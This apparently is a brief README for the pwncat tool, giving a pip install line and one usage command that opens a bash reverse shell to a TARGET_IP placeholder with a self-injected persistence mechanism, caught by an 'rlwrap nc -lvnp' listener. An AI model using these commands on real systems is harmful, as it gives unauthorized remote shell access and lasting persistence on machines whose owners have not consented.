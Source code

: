 # Pwncat

## Installation

#### 1) pip install pwncat

## Usage:

#### 1) pwncat -l PORT --self-inject /bin/bash:TARGET_IP:PORT+NUM (Sets up a listener while creating a persistent mechanism. Connect back with rlwrap nc -lvnp PORT. +NUM indicates how many more ports does the persistent mechanism work)

